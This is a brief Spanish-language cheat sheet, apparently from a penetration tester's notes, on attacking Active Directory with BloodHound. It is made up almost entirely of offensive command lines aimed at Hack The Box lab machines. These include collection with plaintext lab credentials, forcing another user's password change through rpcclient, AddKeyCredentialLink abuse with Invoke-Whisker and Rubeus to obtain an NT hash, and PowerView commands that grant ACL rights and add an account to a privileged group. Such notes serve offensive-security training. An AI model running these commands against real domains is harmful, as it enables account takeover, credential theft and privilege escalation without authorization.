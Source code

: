 # BloodHound

### Uso de BloodHound-python

```
bloodhound-python -u support -p '#00^BlackKnight' -d blackfield.local -ns 10.10.10.192 -c All
```

### Inicialización Neo4j

```
sudo neo4j console
bloodhound &>/dev/null & disown
```

### SharpHound Inyector

```
PS C:\Temp> .\SharpHound.exe -c All
```

## Abuso de ForceChangePassword

### Modificación de contraseña por RPC

```
rpcclient -U blackfield/support 10.10.10.192
rpcclient $> setuserinfo audit2020 23 H@CKTHEB0X#
```

## Abuso AddKeyCredentialLink

### Uso de Invoke-Whisker (Obtención Hash NT)

```
PS C:\Temp> Invoke-Whisker -Command "add /target:sflowers"
```

```
.\Rubeus.exe asktgt /user:sflowers /certificate:<CERTIFICATE>
```

## Abuso ReadLAPSPassword

```
*Evil-WinRM* PS C:\Temp> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Temp> $SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
*Evil-WinRM* PS C:\Temp> $Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $SecPassword)
*Evil-WinRM* PS C:\Temp> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Core Staff" -PrincipalIdentity 'JDgodd'
*Evil-WinRM* PS C:\Temp> Add-DomainGroupMember -Identity 'Core Staff' -Members 'JDgodd' -Credential $Cred
```
